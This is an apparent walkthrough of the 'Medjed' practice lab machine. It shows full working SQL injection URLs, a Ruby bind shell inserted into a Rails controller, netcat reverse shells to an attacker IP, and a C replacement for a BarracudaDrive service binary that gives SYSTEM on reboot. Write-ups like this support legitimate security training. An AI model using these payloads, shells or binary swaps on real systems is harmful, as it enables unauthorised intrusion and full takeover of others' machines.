



# Medjed

## Information Gathering

### Service Enumeration

`nmapAutomator.sh -H 192.168.237.127 -t full`

`nmapAutomator.sh -H 192.168.237.127 -t vulns`




### FTP

Anonymous sessions are allowed. Recursively download the entire directory:

`wget -r ftp://anonymous@192.168.237.127:30021`

Seems to be the default ruby on rails installation.

### HTTP

On port 3303, we find a web application with the profiles of the team. We can try to use their names as usernames to login.


There is a password reset feature.


When using username `christopher`, we get "The password reminder doesn't match the records", which is different from the other users - "The user does not exist".


Hence, we can confirm that `christopher` is a valid user.

Tried:

* SQL injection for password reminder \(failed\)

I then realised that the users page is on the `/users` path. By trying `http://192.168.237.127:33033/users/christopher`, we get an error traceback.



Now that we know that traceback is shown, we can try to go to an invalid path to see the routes available.


`/users` takes 4 request methods:



Tried:

* all 4 allowed request methods \(failed - authentication\)

There is another interesting path, `/slug`.


When fuzzing the input, I found that a single quote causes an error.


This showed the source code for the construction of an SQL query.

```ruby
sql = "SELECT username FROM users WHERE username = '" + params[:URL].to_s + "'"
```

This is a classic SQL injection vulnerability. However, the difference here is that no matter whether the query evaluates to True or False, we get the same result, i.e. we don't get any feedback on the output. However, the **MySQL error gets reflected**, so this is an **error-based injection**.

## Exploitation

### Option 1 - Time Based Boolean Blind

```sql
SELECT username FROM users WHERE username = '' UNION SELECT IF(1=1, SLEEP(5), null)-- -
```

`http://192.168.237.127:33033/slug?URL=%27%20UNION%20SELECT%20IF(1=2,%20SLEEP(5),%20null)--%20-`

The `IF` conditional will make the server sleep for 5 seconds if the condition is True, or respond immediately otherwise.

### Option 2 - Error Based

If we do something like

```sql
SELECT username FROM users WHERE username = '' AND 1= (SELECT 1 FROM(SELECT COUNT(*),concat(0x3a,(SELECT username FROM users LIMIT 0,1),FLOOR(rand(0)*2))x FROM information_schema.TABLES GROUP BY x)a)-- -
```

The `SELECT username FROM users LIMIT 0,1` output gets reflected in the MySQL error.

`http://192.168.237.127:33033/slug?URL=%27%20AND%201=%20(SELECT%201%20FROM(SELECT%20COUNT(*),concat(0x3a,(SELECT%20username%20FROM%users%20LIMIT%200,1),FLOOR(rand(0)*2))x%20FROM%20information_schema.TABLES%20GROUP%20BY%20x)a)--%20-`


In this case, we can see that `evren.eagan` is the first username.

Replacing the inner query with `SELECT reminder FROM USERS LIMIT 0,1`, we see the reminder, `4qpdR87QYjRbog`.

{% embed url="http://192.168.237.127:33033/slug?URL=%27%20AND%201=%20\(SELECT%201%20FROM\(SELECT%20COUNT\(\*\),concat\(0x3a,\(SELECT%20reminder%20FROM%20USERS%20LIMIT%200,1\),FLOOR\(rand\(0\)\*2\)\)x%20FROM%20information\_schema.TABLES%20GROUP%20BY%20x\)a\)--%20-" %}


With this, we can go back to the password reset page and successfully reset the password.


Now that we login to a valid user, we gain access to the edit feature.


### Web File Server \(WFS\)

There is another HTTPS service running at 44330. Here, we can upload arbitrary files.


We can then upload a modified version of the `users_controller.rb`, which handles HTTP requests related to the `/user` path.

I edited the `PATCH/PUT` handler to include this bind shell payload: [https://github.com/secjohn/ruby-shells/blob/master/shell.rb](https://github.com/secjohn/ruby-shells/blob/master/shell.rb)

```ruby
class UsersController < ApplicationController
  include BCrypt
  before_action :authorize, only: [:new, :create, :edit, :update, :destroy]
  before_action :set_user, only: [:show, :edit, :update, :destroy]

    ...

  # PATCH/PUT /users/1
  # PATCH/PUT /users/1.json
  def update

    require 'socket'
    require 'open3'

    #The number over loop is the port number the shell listens on.
    Socket.tcp_server_loop(5555) do |sock, client_addrinfo|
      begin
      while command = sock.gets
        Open3.popen2e("#{command}") do | stdin, stdout_and_stderr |
          IO.copy_stream(stdout_and_stderr, sock)
          end  
          end
       rescue
      break if command =~ /IQuit!/
      sock.write "Command or file not found.\n"
      sock.write "Type IQuit! to kill the shell forever on the server.\n"
      sock.write "Use ^] or ctl+C (telnet or nc) to exit and keep it open.\n"
      retry
       ensure
         sock.close
      end
    end

    ...

end
```

After uploading the modified `users_controller.rb` and submitting the "Update User" form, we can then connect to the bind shell.


To get a more stable and interactive shell, we can transfer `nc.exe` and run it.

Copy netcat over SMB: `copy \\192.168.49.237\ROPNOP\nc.exe .`

Create another reverse shell: `nc -e cmd.exe 192.168.49.237 139`


## Privilege Escalation

In the WinPEAS output, we find an interesting AutoRun executable, `bdctl.exe`. This is an executable from the BarracudaDrive program.


Looking in the `C:\bd` directory, we find a `readme.txt` which shows the changelog.


It appears that the version of BarracudaDrive is 6.5, since the changelog stops there.


This version is vulnerable to a local privesc vulnerability: [https://www.exploit-db.com/exploits/48789](https://www.exploit-db.com/exploits/48789)

Create `addAdmin.c`:

```c
#include <windows.h>
#include <winbase.h>

int main(void){
     system("C:\\Sites\\userpro\\nc.exe 192.168.49.237 139 -e cmd.exe");
     WinExec("C:\\bd\\bd.service.exe", 0);
    return 0;
}
```

On reboot, this will spawn a new reverse shell as SYSTEM.

Cross-compile for Windows: `i686-w64-mingw32-gcc addAdmin.c -o bd.exe`

Move the existing `bd.exe`: `move bd.exe bd.service.exe`

Copy the new malicious `bd.exe`: `copy \\192.168.49.237\ROPNOP\bd.exe .`

Now restart the system: `shutdown /r`. We should be able to catch a shell as SYSTEM:


